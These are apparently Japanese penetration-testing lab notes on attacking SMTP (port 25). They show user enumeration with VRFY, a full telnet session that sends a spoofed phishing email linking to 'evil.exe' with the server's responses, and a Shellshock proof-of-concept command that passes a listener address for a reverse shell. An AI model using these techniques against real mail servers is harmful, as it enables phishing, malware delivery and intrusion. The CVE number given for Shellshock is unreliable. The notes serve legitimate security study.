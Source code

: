 # SMTP(25)

* VFRYリクエスト：サーバに電子メールアドレスの検証を要求
* EXPNリクエスト：サーバにメーリングリストのメンバーかどうかを要求

### 接続

```bash
nc -nv 10.11.1.217 25
VRFY root
252 2.0.0 root
VRFY idontexist
550 5.1.1 <idontexist>: Recipient address rejected: User unknown in local recipient table
```

```bash
nc -nvC 10.11.1.72 25
```

-C：LFではなくCRLFでコマンド送信する

### telnet

接続するとドメインが確認できる。

![image-20230226122546227](img/SMTP(25)/image-20230226122546227.png)

メールアドレスの正当性を確認できる(エラーがかえって来なければ成功）

```
VRFY useradm@mail.local
```

![image-20230226122636557](img/SMTP(25)/image-20230226122636557.png)

以下入力情報

```bash
telnet 192.168.144.55 25
EHLO 192.168.144.55
MAIL FROM: rmurray@victim
rcpt to:tharper@victim
data
To: tharper@victim
From: rmurray@victim
Subject: urgent patch

test mail
http://192.168.119.144/evil.exe
.
quit
```

応答付き

```bash
┌──(kali㉿kali)-[~/Documents/OSCP/13.ClientSideAttacks]
└─$ telnet 192.168.144.55 25                                                               
Trying 192.168.144.55...
Connected to 192.168.144.55.
Escape character is '^]'.
220 VICTIM Microsoft ESMTP MAIL Service, Version: 10.0.17763.1697 ready at  Wed, 4 Jan 2023 00:05:27 -0500 
EHLO 192.168.144.55
250-VICTIM Hello [192.168.119.144]
250-TURN
250-SIZE 2097152
250-ETRN
250-PIPELINING
250-DSN
250-ENHANCEDSTATUSCODES
250-8bitmime
250-BINARYMIME
250-CHUNKING
250-VRFY
250 OK
MAIL FROM: rmurray@victim
250 2.1.0 rmurray@victim....Sender OK
rcpt to:tharper@victim
250 2.1.5 tharper@victim 
data
354 Start mail input; end with <CRLF>.<CRLF>
To: tharper@victim
From: rmurray@victim
Subject: urgent patch

http://192.168.119.144/evil.exe
.
250 2.6.0 <VICTIMTtPsRxnXLD16Q00000001@VICTIM> Queued mail for delivery
quit
221 2.0.0 VICTIM Service closing transmission channel
Connection closed by foreign host.
```

https://qiita.com/awwa/items/dae1f8475c96b506edd0



### Shellshock(CVE-2014-6272)

procmail・formail

PoCを成功させるには事前にVRFYで確認した正当なユーザである必要がある

PoC：https://github.com/3mrgnc3/pentest_old/blob/master/postfix-shellshock-nc.py

```
python smtp.py 10.11.1.231 useradm@mail.local 192.168.45.190 4444 
```



### メモ

* 一度インターネット接続がないサーバーからメールを送りたくてメールサーバーを構築しようとしたときがあったがDNSサーバーやLDAPサーバーなどが必要であり無理なのでやめること
  https://digitalmania.info/linux/debian-11/build-mail-server/

* 【図解】初心者にもわかるメールの仕組み](https://milestone-of-se.nesuke.com/nw-basic/grasp-nw/mail/)

  ![image-20220904103739143](img/SMTP(25)/image-20220904103739143.png)

  
